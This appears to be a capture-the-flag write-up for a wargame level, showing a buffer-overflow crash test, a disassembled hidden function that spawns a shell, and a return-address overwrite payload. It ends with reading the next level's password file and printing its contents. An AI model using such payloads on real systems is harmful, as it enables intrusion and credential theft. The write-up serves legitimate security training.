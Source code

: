For this one, we use our first bufferoverflow!
First, we try to make the executable segfault :
```bash
(python -c "print 'A' * 76" ; cat) | ./level1
Illegal instruction (core dumped)
```

At this point, we know the buffer size which is equal to `76`. Now we try to decompile with `objdump -d ./level1` :
```asm
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret 
```

We see here a function which is not called by the `main` but execute a `system('/bin/sh')`. The idea is to place the `0x8048444` run's address in the bufferoverflow :
```bash
(python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1
Good... Wait what?
whoami
level2
cd .. && cat level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```